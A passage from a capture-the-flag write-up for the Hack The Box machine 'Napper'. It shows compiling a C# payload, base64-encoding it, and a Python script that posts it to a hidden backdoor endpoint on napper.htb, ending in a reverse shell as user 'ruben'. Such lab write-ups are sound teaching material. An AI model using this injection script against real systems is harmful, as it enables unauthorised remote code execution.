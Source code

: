 Afterwards, I used `mono` to compile the program to get `payload.exe`.

```
$ mcs payload.cs           
payload.cs(52,17): warning CS0219: The variable `runInstance' is assigned but its value is never used
payload.cs(67,34): warning CS0168: The variable `err' is declared but never used
Compilation succeeded - 2 warning(s)
```

The next step would be to encode this using `base64` and plop it in our `inject.py`. 

```
$ base64 -w0 payload.exe| xclip -sel clip
```

Here's the final `inject.py` script:

```python
import requests
from urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(category=InsecureRequestWarning)
payload="<PAYLOAD HERE>"

hosts =["napper.htb"]
form_field=f"sdafwe3rwe23={requests.utils.quote(payload)}"
for h in hosts:
        url_ssl= f"https://{h}/ews/MsExgHealthCheckd/"
        try:
                r_ssl=requests.post(url_ssl,data=form_field,verify=False)
                print(f"{url_ssl} : {r_ssl.status_code}{r_ssl.headers}")
        except KeyboardInterrupt:
                exit()
        except Exception as e:
                print(e)
                pass
```

Upon running, it returns some headers:

```
$ python3 inject.py
https://napper.htb/ews/MsExgHealthCheckd/ : 200{'Content-Length': '0', 'Content-Type': 'text/html; charset=utf-8', 'Server': 'Microsoft-IIS/10.0 Microsoft-HTTPAPI/2.0', 'X-Powered-By': 'ASP.NET', 'Date': 'Tue, 14 Nov 2023 03:04:24 GMT'}
```

More importantly, I got a reverse shell as the `ruben` user:

![](../../.gitbook/assets/htb-napper-image-6.png)
